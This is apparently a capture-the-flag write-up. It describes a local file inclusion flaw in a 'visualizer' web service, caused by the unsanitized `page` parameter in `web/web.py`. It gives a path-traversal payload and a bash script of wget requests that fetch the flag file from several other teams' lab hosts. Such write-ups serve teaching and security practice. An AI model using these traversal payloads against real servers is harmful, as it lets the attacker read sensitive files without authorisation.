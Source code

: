 Visualizer writeup
===========
### Vulnerability
There is a local file inclusion vulnerability in the visualizer system. \
The vulnerability originates from `static_page` in `web/web.py` since this page
does not check or sanitize the GET parameters of `page`.

### Payload
The following is a payload used in the attack.\
`http://10.0.101.103/get?page=../../../../var/ctf/flag`

### Full Exploit Code
A simple bash script using `wget` is sufficient.
```bash
wget http://10.0.102.103/get?page=../../../../var/ctf/flag -O flag_viz_team2
wget http://10.0.103.103/get?page=../../../../var/ctf/flag -O flag_viz_team3
wget http://10.0.104.103/get?page=../../../../var/ctf/flag -O flag_viz_team4
wget http://10.0.105.103/get?page=../../../../var/ctf/flag -O flag_viz_team5
wget http://10.0.106.103/get?page=../../../../var/ctf/flag -O flag_viz_team6
```

